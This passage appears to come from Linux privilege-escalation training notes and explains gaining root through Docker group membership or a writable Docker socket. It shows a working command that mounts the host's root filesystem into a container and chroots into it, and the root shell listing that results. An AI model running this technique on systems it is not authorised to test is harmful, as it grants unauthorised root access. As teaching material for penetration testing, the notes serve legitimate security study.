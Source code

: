 ## Docker Group

To gain root privileges through Docker, the user we are logged in with must be in the `docker` group. This allows him to use and control the Docker daemon.

```shell
docker-user@nix02:~$ id

uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```

Alternatively, Docker may have SUID set, or we are in the Sudoers file, which permits us to run `docker` as root. All three options allow us to work with Docker to escalate our privileges.

## Docker Socket

A case that can also occur is when the Docker socket is writable. Usually, this socket is located in `/var/run/docker.sock`. However, the location can understandably be different. Because basically, this can only be written by the root or docker group. If we act as a user, not in one of these two groups, and the Docker socket still has the privileges to be writable, then we can still use this case to escalate our privileges.

```shell
docker-user@nix02:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash

root@ubuntu:~# ls -l

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var

```
